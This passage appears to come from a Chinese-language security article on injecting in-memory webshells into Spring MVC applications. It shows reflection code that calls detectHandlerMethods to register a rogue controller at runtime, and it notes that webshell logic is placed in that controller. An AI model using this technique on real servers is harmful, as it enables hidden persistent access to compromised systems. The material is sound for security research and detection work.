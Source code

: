 

#### 方法三：detectHandlerMethods

参考上面的 `HandlerMapping` 接口继承关系图，针对使用 `RequestMappingHandlerMapping` 映射器的应用，可以找到它继承的顶层类

```java
org.springframework.web.servlet.handler.AbstractHandlerMethodMapping
```

进入查看代码，发现其中有一个`detectHandlerMethods` 方法，代码如下：

```java
protected void detectHandlerMethods(Object handler) {
	Class<?> handlerType = handler instanceof String ? this.getApplicationContext().getType((String)handler) : handler.getClass();
	final Class<?> userType = ClassUtils.getUserClass(handlerType);
	Set<Method> methods = HandlerMethodSelector.selectMethods(userType, new MethodFilter() {
		public boolean matches(Method method) {
			return AbstractHandlerMethodMapping.this.getMappingForMethod(method, userType) != null;
		}
	});
	Iterator var6 = methods.iterator();
	while(var6.hasNext()) {
		Method method = (Method)var6.next();
		T mapping = this.getMappingForMethod(method, userType);
		this.registerHandlerMethod(handler, method, mapping);
	}
}
```



该方法仅接受`handler`参数，同样可以在 `this.getApplicationContext()` 获得的上下文环境中寻找名字为 `handler` 参数值的 `bean`, 并注册 `controller` 的实例 `bean`。

示例代码如下：

```java
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("me.landgrey.SSOLogin").newInstance());
org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping.class);
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractHandlerMethodMapping.class.getDeclaredMethod("detectHandlerMethods", Object.class);
m1.setAccessible(true);
m1.invoke(requestMappingHandlerMapping, "dynamicController");
```



### 3. controller 中的 Webshell 逻辑

在使用 `registerMapping` 动态注册 `controller` 时，不需要强制使用 `@RequestMapping`  注解定义 URL 地址和 HTTP 方法，其余两种手动注册 `controller` 的方法都必须要在 `controller` 中使用`@RequestMapping`  注解 。

除此之外，将 Webshell 的代码逻辑写在主要的 `Controller` 方法中即可。
